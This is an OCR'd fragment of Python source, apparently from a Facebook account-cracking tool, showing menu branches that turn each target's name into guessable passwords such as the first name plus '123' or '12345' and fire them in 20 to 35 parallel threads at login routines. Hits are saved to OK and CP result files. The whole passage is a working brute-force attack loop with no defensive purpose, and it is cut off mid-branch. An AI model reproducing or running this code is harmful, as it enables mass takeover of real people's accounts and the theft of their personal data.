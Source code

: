             IMTIAZ_AKING('\n\tCrack Processing...\n\n'); 
            with ThreadPoolExecutor(max_workers=35) as (_ngentot_gratis_):
                for yntkts in self.id:
                    try:
                        uid, name = yntkts.split('|')
                        xz = name.split(' ')
                        if len(xz) == 1:
                            pwx = [name, xz[0]+"123", xz[0]+"12345"]
                        elif len(xz) == 2:
                            pwx = [name, xz[0]+"123", xz[0]+"12345"]
                        elif len(xz) == 3:
                            pwx = [name, xz[0]+"123", xz[0]+"12345"]
                        elif len(xz) == 4:
                            pwx = [name, xz[0]+"123", xz[0]+"12345"]
                        else:
                            pwx = [name, xz[0]+"123", xz[0]+"12345"]
                        _ngentot_gratis_.submit(self.__api__, uid, pwx)
                    except:
                        pass
            os.remove(self.apk)
            hasil(ok,cp)
        elif yan in ('2', '02'):
            IMTIAZ_AKING('\n[•] Result OK saved to IDREESOK.txt')
            IMTIAZ_AKING('[•] Result CP saved to IDREESCP.txt')
            IMTIAZ_AKING('\n\tCrack Processing...\n')
            IMTIAZ_AKING('\n\tCrack Processing...\n\n'); 
            with ThreadPoolExecutor(max_workers=25) as (_ngentot_gratis_):
                for yntkts in self.id:
                    try:
                        uid, name = yntkts.split('|')
                        xz = name.split(' ')
                        if len(xz) == 1:
                            pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+"1234"]
                        elif len(xz) == 2:
                            pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+"1234"]
                        elif len(xz) == 3:
                            pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+"1234"]
                        elif len(xz) == 4:
                            pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+"1234"]
                        else:
                            pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+"1234"]
                        _ngentot_gratis_.submit(self.__mbasic__, uid, pwx)
                    except:
                        pass
            os.remove(self.apk)
            hasil(ok,cp)
        elif yan in ('3', '03'):
            #IMTIAZ_AKING('\n[•] Result OK saved to OK.txt')
            #IMTIAZ_AKING('[•] Result CP saved to CP.txt')
            #IMTIAZ_AKING('\n\tCrack Processing...\n')
            IMTIAZ_AKING('\n\tCrack Processing...\n\n'); 
            with ThreadPoolExecutor(max_workers=20) as (_ngentot_gratis_):
                for yntkts in self.id:
                    try:
                        uid, name = yntkts.split('|')
                        xz = name.split(' ')
                        if len(xz) == 1:
                            pwx = [name, xz[0]+"123", xz[0]+"12345"]
                        elif len(xz) == 2:
                            pwx = [name, xz[0]+"123", xz[0]+"12345"]
                        elif len(xz) == 3:
                        	pwx = [name, xz[0]+"123", xz[0]+"12345"]
                        elif len(xz) == 4:
                            pwx = [name, xz[0]+"123", xz[0]+"12345"]